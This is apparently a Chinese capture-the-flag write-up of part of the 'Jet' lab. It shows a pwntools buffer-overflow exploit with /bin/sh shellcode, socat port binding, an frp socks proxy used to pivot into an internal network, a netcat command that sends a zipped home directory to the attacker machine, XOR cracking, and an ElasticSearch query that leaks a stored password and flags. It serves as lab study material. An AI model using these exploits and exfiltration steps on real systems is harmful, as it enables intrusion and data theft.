

```
from pwn import *

io = process('./leak')

io.recvuntil(b"Oops, I'm leaking! ")
leak_addr=int(io.recvuntil('\n'),16)
shellcode = b"\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

io.recvuntil(b"> ")

io.sendline(shellcode.ljust(72,b'a') +p64(leak_addr))

io.interactive()
```

接下来就是要把`leak`二进制文件挂载到一个端口上，比较简单的做法是用`nc -e`进行挂载，不过这里的nc版本不对，不能用这个参数。询问`ChatGPT`，他给了我这个命令`socat`

```
socat TCP4-LISTEN:13145,reuseaddr,fork EXEC:/home/leak &
```

现在的问题就是，似乎从kali无法直接`nc 10.13.37.10 13145`端口，而在反弹shell里的是能`nc 127.0.0.1 13145`，大概率是不出网的问题，可以看到他只有两个内网`IP`



既然反弹`shell`的机器能够访问我的`kali`，那么可以尝试使用`frp`搭建代理，然后代理访问内网挂载`leak`的端口，实现攻击

\[github author="fatedier" project="frp"\]\[/github\]

下载`amd64`版本，然后如下配置，其中`server_addr`是`kali`的内网`IP`，`remote_port`是使用代理的端口

```
[root@kali] /home/kali/Desktop/frp_0.61.0_linux_amd64  
❯ cat frps.ini             
[common]
bind_port = 7000

[root@kali] /home/kali/Desktop/frp_0.61.0_linux_amd64  
❯ cat frpc.ini
[common]
server_addr = 10.10.xx.xx  
server_port = 7000  
tls_enable = ture 
 
[plugin socks]
type = tcp  
plugin = socks5 
remote_port = 46075  
use_encryption = true
use_compression = true
```

将`frpc`和`frpc.ini`通过`python`的`http`模块上传到目标机器的`/tmp`目录下并且赋予权限

先打开`kali`的服务端，再打开反弹`shell`的客户端





修改`/etc/proxychains4.conf`如下



挂载`leak`二进制文件

```
www-data@jet:/home$ socat TCP4-LISTEN:13145,reuseaddr,fork EXEC:/home/leak &
```

如图则表示代理搭建成功👇



最后将poc.py修改为远程连接即可

```
from pwn import *

#io = process('./leak')
io = remote("192.168.122.100",13145)

io.recvuntil(b"Oops, I'm leaking! ")
leak_addr=int(io.recvuntil(b'\n'),16)
shellcode = b"\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

io.recvuntil(b"> ")

io.sendline(shellcode+(72-len(shellcode))*b'a' +p64(leak_addr))

io.interactive()
```

最后代理执行拿到flag

```
JET{0v3rfL0w_f0r_73h_lulz}
```



## Secret Message

在`alex`目录下发现了一些文件，将其`zip`打包用`nc`传出来

```
$  cd /home/alex
$  zip -r alex.zip .
$  nc 10.10.xx.xx 9855 < alex.zip

[root@kali] /home/kali/Jet 
❯ nc -lvnp 9855 > alex.zip  
```

一共有三个文件

```
[root@kali] /home/kali/Jet  
❯ cat crypter.py     
                                                                                                              
import binascii

def makeList(stringVal):
    list = []
    for c in stringVal:
        list.append(c)
    return list

def superCrypt(stringVal,keyVal):
    keyPos = 0
    key = makeList(keyVal)
    xored = []
    for c in stringVal:
        xored.append(binascii.hexlify(chr(ord(c) ^ ord(keyVal[keyPos]))))
        if keyPos == len(key) - 1:
            keyPos = 0
        else:
            keyPos += 1
    hexVal = ''
    for n in xored:
        hexVal += n
    return hexVal

with open('message.txt') as f:
    content = f.read()

key = sys.argv[1]

with open('encrypted.txt', 'w') as f:
    output = f.write(binascii.unhexlify(superCrypt(content, key)))
```

`encrypted.txt`应该是加密后的文本，`exploitme.zip`需要密码才能解压

`ChatGPT`对上面的脚本解释：这段代码实现的是一种基于 **异或（XOR）操作** 的加密方式。

由于没有密钥进行反异或，需要使用到一个工具`Featherduster`

\[github author="nccgroup" project="featherduster"\]\[/github\]

```
git clone https://github.com/nccgroup/featherduster
docker build -t featherduster .
```

解密得到如下文本，密钥是：`securewebincrocks`

```
Hello mate!

First of all an important finding regarding our website: Login is prone to SQL injection! Ask the developers to fix it asap!

Regarding your training material, I added the two binaries for the remote exploitation training in exploitme.zip. The password is the same we use to encrypt our communications.
Make sure those binaries are kept safe!

To make your life easier I have already spawned instances of the vulnerable binaries listening on our server.

The ports are 5555 and 7777.
Have fun and keep it safe!

JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}

Cheers - Alex

-----------------------------------------------------------------------------
This email and any files transmitted with it are confidential and intended solely for the use of the individual or entity to whom they are addressed. If you have received this email in error please notify the system manager. This message contains confidential information and is intended only for the individual named. If you are not the named addressee you should not disseminate, distribute or copy this e-mail. Please notify the sender immediately by e-mail if you have received this e-mail by mistake and delete this e-mail from your system. If you are not the intended recipient you are notified that disclosing, copying, distributing or taking any action in reliance on the contents of this information is strictly prohibited.
-----------------------------------------------------------------------------
```

## Elasticity

使用`nmap`进行全端口扫描

```
[root@kali] /home/kali/Jet  
❯ nmap 10.13.37.10 -p- 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 19:22 CST
Stats: 0:02:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 26.57% done; ETC: 19:30 (0:05:51 remaining)
Nmap scan report for www.securewebinc.jet (10.13.37.10)
Host is up (0.37s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
2222/tcp open  EtherNetIP-1
5555/tcp open  freeciv
7777/tcp open  cbt
9201/tcp open  wap-wsp-wtp

Nmap done: 1 IP address (1 host up) scanned in 1291.19 seconds
```

查看内网端口开放的情况

```
www-data@jet:/$ netstat -tuln
netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:13145           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:25825           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:7777            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:6321            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:9201            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:5555            0.0.0.0:*               LISTEN     
tcp        0      0 192.168.122.100:53      0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:953                 :::*                    LISTEN     
tcp6       0      0 :::25825                :::*                    LISTEN     
tcp6       0      0 127.0.0.1:9200          :::*                    LISTEN     
tcp6       0      0 127.0.0.1:9300          :::*                    LISTEN     
tcp6       0      0 :::53                   :::*                    LISTEN     
udp        0      0 192.168.122.100:53      0.0.0.0:*                          
udp        0      0 127.0.0.1:53            0.0.0.0:*                          
udp6       0      0 :::53                   :::*      
```

可以注意到`9200`和`9300`端口开放，他们主要是`ElasticSearch`服务使用的端口

由于绑定的是`127.0.0.1`这里使用代理也无法访问，需要在本地进行一次端口转发

```
socat tcp-listen:9999,reuseaddr,fork tcp:localhost:9300 &
```

然后我就无法正常`Curl`通那几个端口了，即使在反弹`Shell`里也无法连接，也不知道为什么？



我这里就引用一下别人的Poc吧

```
import java.net.InetSocketAddress;
import java.net.InetAddress;
import java.util.Map;
import org.elasticsearch.action.admin.indices.exists.indices.IndicesExistsResponse;
import org.elasticsearch.action.admin.cluster.health.ClusterHealthResponse;
import org.elasticsearch.action.admin.indices.get.GetIndexResponse;
import org.elasticsearch.action.admin.indices.get.GetIndexRequest;
import org.elasticsearch.transport.client.PreBuiltTransportClient;
import org.elasticsearch.cluster.health.ClusterIndexHealth;
import org.elasticsearch.common.transport.TransportAddress;
import org.elasticsearch.client.transport.TransportClient;
import org.elasticsearch.action.search.SearchResponse;
import org.elasticsearch.client.IndicesAdminClient;
import org.elasticsearch.common.settings.Settings;
import org.elasticsearch.search.SearchHit;
import org.elasticsearch.client.Client;

public class Program {
    public static void main(String[] args) {
        byte[] ipAddr = new byte[]{10, 13, 37, 10};
        Client client = new PreBuiltTransportClient(Settings.EMPTY)
            .addTransportAddress(new TransportAddress(new InetSocketAddress("10.13.37.10", 9999)));
        System.out.println(client.toString());
        ClusterHealthResponse healths = client.admin().cluster().prepareHealth().get();
        for (ClusterIndexHealth health : healths.getIndices().values()) {
            String index = health.getIndex();
            System.out.println(index);
        }
        SearchResponse searchResponse = client.prepareSearch("test").execute().actionGet();
        SearchHit[] results = searchResponse.getHits().getHits();
        for(SearchHit hit : results){
            String sourceAsString = hit.getSourceAsString();
            System.out.println(sourceAsString);
        }
        client.close();
    }
}
```

编译运行得到如下

```
{
  "timestamp": "2017-11-13 08:31",
  "subject": "Just a heads up Rob",
  "category": "admin",
  "draft": "no",
  "body": "Hey Rob - just so you know, that information you wanted has beensent."
}
{
  "timestamp": "2017-11-10 07:00",
  "subject": "Maintenance",
  "category": "maintenance",
  "draft": "no",
  "body": "Performance to our API has been reduced for a period of 3 hours. Services have been distributed across numerous suppliers, in order to reduce any future potential impact of another outage, as experienced yesterday"
}
{
  "timestamp": "2017-11-13 08:30",
  "subject": "Details for upgrades to EU-API-7",
  "category": "admin",
  "draft": "yes",
  "body": "Hey Rob, you asked for the password to the EU-API-7 instance. You didn not want me to send it on Slack, so I am putting it in here as a draft document. Delete this once you have copied the message, and don _NOT_ tell _ANYONE_. We need a better way of sharing secrets. The password is purpl3un1c0rn_1969. -Jason JET{3sc4p3_s3qu3nc3s_4r3_fun}"
}
{
  "timestamp": "2017-11-13 13:32",
  "subject": "Upgrades complete",
  "category": "Maintenance",
  "draft": "no",
  "body": "All upgrades are complete, and normal service resumed"
}
{
  "timestamp": "2017-11-09 15:13",
  "subject": "Server outage",
  "category": "outage",
  "draft": "no",
  "body": "Due to an outage in one of our suppliers, services were unavailable for approximately 8 hours. This has now been resolved, and normal service resumed"
}
{
  "timestamp": "2017-11-13 13:40",
  "subject": "Thanks Jazz",
  "category": "admin",
  "draft": "no",
  "body": "Thanks dude - all done. You can delete our little secret. Kind regards, Rob"
}
{
  "timestamp": "2017-11-13 08:27",
  "subject": "Upgrades",
  "category": "maintenance",
  "draft": "no",
  "body": "An unscheduled maintenance period will occur at 12:00 today for approximately 1 hour. During this period, response times will be reduced while services have critical patches applied to them across all suppliers and instances"
}
```

## End.....

第一次做`Fortresses`里面的题目，感觉综合性非常强，涉及到很多东西，不仅限于`Web`、`Pwn`，甚至还有一些密码的思路。后面还有`几个`Task，我觉得也不太好做了，这篇文章就到这里吧。

Bye~~😜
